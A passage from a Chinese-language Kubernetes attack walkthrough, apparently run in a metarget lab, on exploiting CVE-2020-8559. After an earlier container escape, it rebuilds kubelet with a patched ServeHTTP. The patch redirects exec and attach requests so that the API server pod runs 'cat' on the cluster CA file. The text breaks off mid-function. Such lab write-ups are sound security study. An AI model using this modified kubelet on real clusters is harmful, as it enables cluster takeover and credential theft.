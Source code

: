 #### 2.4.3.2 CVE-2020-8559漏洞利用
参考链接：[移花接木：看CVE-2020-8559如何逆袭获取集群权限](https://cloud.tencent.com/developer/article/1899522)
在逃逸到worker节点后，现在希望将worker节点权限提升为整个集群的权限。
![2023-11-06-10-13-53.png](https://s2.loli.net/2023/11/08/sTGJYIxUyXtlQCD.png)
1. 查看`master`节点`kube-system`命名空间运行的`pod`
   ![2023-11-08-11-30-49.png](https://s2.loli.net/2023/11/08/yOjpFHdY7DMQ9XZ.png)
2. 查看`master`节点`metarget`命名空间运行的`pod`
   ![2023-11-08-11-33-10.png](https://s2.loli.net/2023/11/08/MLHUQvonulCXVgN.png)
3. 在2.4.3.1中，已经利用`CVE-2020-15257`从pod中逃逸至`worker`节点，并获得`root`权限。为了利用`CVE-2020-8559`拦截对kubelet的一些请求，现在需要替换掉`worker`节点上的kubelet。
   1. 在攻击端下载1.17.1版本的`Kubernetes`源码
   
      `git clone --branch v1.17.1 --single-branch https://github.com/kubernetes/kubernetes.git`
   2. 编辑`kubernetes/pkg/kubelet/server/server.go`文件中的`ServeHTTP()`函数
      ![2023-11-08-11-41-02.png](https://s2.loli.net/2023/11/08/rA7kgHlcJpvtNmP.png)
      ```go
      // ServeHTTP responds to HTTP requests on the Kubelet.
      func (s *Server) ServeHTTP(w http.ResponseWriter, req *http.Request) {
        handler := httplog.WithLogging(s.restfulCont, statusesNoTracePred)

        // monitor http requests
        var serverType string
        if s.auth == nil {
          serverType = "readonly"
        } else {
          serverType = "readwrite"
        }

        method, path := req.Method, trimURLPath(req.URL.Path)

        //---------------
        protocol := "https"
        host := "192.168.126.129:6443"
        namespace := "kube-system"
        pod := "kube-apiserver-metarget-master"
        container := "kube-apiserver"
        command1 := "cat"
        command2 := "/etc/kubernetes/pki/ca.crt"
        if strings.Contains(req.URL.Path,"/exec") || strings.Contains(req.URL.Path,"/attach") || strings.Contains(req.URL.Path,"/portforward") {
          fmt.Println("-------------------------------------------------------")
          fmt.Println("SendingRedirect")
          fmt.Println("-------------------------------------------------------")
          http.Redirect(w,req,protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+command1+"&command="+command2+"&container="+container+"&stderr=true&stdout=true",302)
        }
        //--------------

        longRunning := strconv.FormatBool(isLongRunningRequest(path))

        servermetrics.HTTPRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
